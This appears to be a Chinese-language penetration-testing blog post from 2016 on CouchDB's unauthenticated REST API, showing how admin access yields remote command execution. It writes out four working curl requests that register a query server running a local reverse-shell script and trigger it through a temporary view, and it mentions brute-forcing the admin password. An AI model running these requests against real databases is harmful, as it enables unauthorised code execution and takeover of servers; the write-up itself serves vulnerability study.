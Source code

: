 ```yaml
---
layout:     keynote
title:      "Couchdb命令执行"
subtitle:   "一点点记录"
iframe:     "https://Urahara3389.github.io/js-module-7day/"
date:       2016-09-11
author:     "Urahara"
header-img: "https://urahara3389.github.io/img/Couchdb-RCE.jpg"
tags:
    - 渗透测试
    - 数据库安全
---
```



##背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 可以安装在大部分 POSIX 系统上，包括 Linux和 Mac OS X。

##漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/img/Couchdb-RCE-nmap.png)

>执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破

CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/img/Couchdb-RCE-admin.png)

##漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/img/Couchdb-RCE-cookie.png)

>远程命令执行示例
1. 新增query_server配置，写入要执行的命令；
2. 新建一个临时库和临时表，插入一条记录；
3. 调用query_server处理数据

```
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/img/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/img/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/img/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/img/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/img/Couchdb-RCE-over.png)


###参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)
[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/couchdb-unauthorized-access-vulnerability-system-command/)